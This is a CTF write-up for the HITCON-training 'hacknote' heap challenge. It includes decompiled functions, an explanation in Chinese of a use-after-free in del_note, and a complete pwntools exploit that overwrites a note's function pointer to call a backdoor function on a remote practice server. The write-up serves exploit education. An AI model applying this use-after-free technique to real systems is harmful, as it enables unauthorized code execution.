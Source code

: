 ```yaml
---
layout: post
title:  hacknote
date:   2021-02-10 00:01:01 +0300
image:  2021-02-10-snail.jpg
tags:   [ctf,Pwn,UAF,HITCON-training,heap,ubuntu16]
---
```


#### main()

```assembly
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf; // [esp+0h] [ebp-Ch]
  int *v5; // [esp+4h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &buf, 4u);
      v3 = atoi(&buf);
      if ( v3 != 2 )
        break;
      del_note();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        print_note();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      add_note();
    }
  }
}
```

#### menu()

```assembly
int menu()
{
  puts("----------------------");
  puts("       HackNote       ");
  puts("----------------------");
  puts(" 1. Add note          ");
  puts(" 2. Delete note       ");
  puts(" 3. Print note        ");
  puts(" 4. Exit              ");
  puts("----------------------");
  return printf("Your choice :");
}
```

#### add()

```assembly
int add_note()
{
  int result; // eax
  _DWORD *v1; // esi
  char buf; // [esp+0h] [ebp-18h]
  size_t size; // [esp+8h] [ebp-10h]
  int i; // [esp+Ch] [ebp-Ch]

  result = count;
  if ( count > 5 )
    return puts("Full");
  for ( i = 0; i <= 4; ++i )
  {
    result = (int)notelist[i];
    if ( !result )
    {
      notelist[i] = malloc(8u);
      if ( !notelist[i] )
      {
        puts("Alloca Error");
        exit(-1);
      }
      *notelist[i] = print_note_content;
      printf("Note size :");
      read(0, &buf, 8u);
      size = atoi(&buf);
      v1 = notelist[i];
      v1[1] = malloc(size);
      if ( !notelist[i][1] )
      {
        puts("Alloca Error");
        exit(-1);
      }
      printf("Content :");
      read(0, (void *)notelist[i][1], size);
      puts("Success !");
      return count++ + 1;
    }
  }
  return result;
}
```

每个note有两个字段put与content，其中put会被设置为一个函数，其函数会输出content具体的内容。

#### del_note()

```assembly
_DWORD *del_note()
{
  _DWORD *result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = notelist[v2];
  if ( result )
  {
    free((void *)notelist[v2][1]);
    free(notelist[v2]);
    result = (_DWORD *)puts("Success");
  }
  return result;
}
```

先free掉content，再free掉。

只是单纯进行了 free，而没有将指针设置为NULL或0，因此存在UAF漏洞。

#### print_note()

```assembly
_DWORD *print_note()
{
  _DWORD *result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = notelist[v2];
  if ( result )
    result = (_DWORD *)((int (__cdecl *)(_DWORD *))*notelist[v2])(notelist[v2]);
  return result;
}
```

使用设置的函数输出content。

#### 思路：

先创建note0

* put（8）
* content（size）

note1

* put（8）
* content（size）

delete掉note0和note1，四个堆放入fastbin。

* note0 content（size）

* note0 put        （8）

* note1 content （size）

* note1 put        （8）

* ​       Top Chunk

接下来要想办法将某个note的put改为后门函数的地址。而修改内容只能使用程序的Add_note()功能。

add时，先申请一个8字节的堆存放put函数，即note1 put。

接下来申请的content内存用来实现将put函数改为后门函数，所以content的size只能为8，这样才可以得到note0 put的内存空间。

#### exp：

```assembly
from pwn import *

# io = process("./hacknote")
io = remote("node3.buuoj.cn",28764)

def add(size, content):
    io.recvuntil("Your choice :")
    io.sendline(str(1))
    io.recvuntil("Note size :")
    io.sendline(str(size))
    io.recvuntil("Content :")
    io.sendline(content)

def delete(index):
    io.recvuntil("Your choice :")
    io.sendline(str(2))
    io.recvuntil("Index :")
    io.sendline(str(index))

def print_(index):
    io.recvuntil("Your choice :")
    io.sendline(str(3))
    io.recvuntil("Index :")
    io.sendline(str(index))

magic = 0x8048945

add(0x30, "aaaa")
add(0x30, "bbbb")

delete(0)
delete(1)

add(0x8, p32(magic))

print_(0)

# gdb.attach(io)
# raw_input()

io.interactive()
```

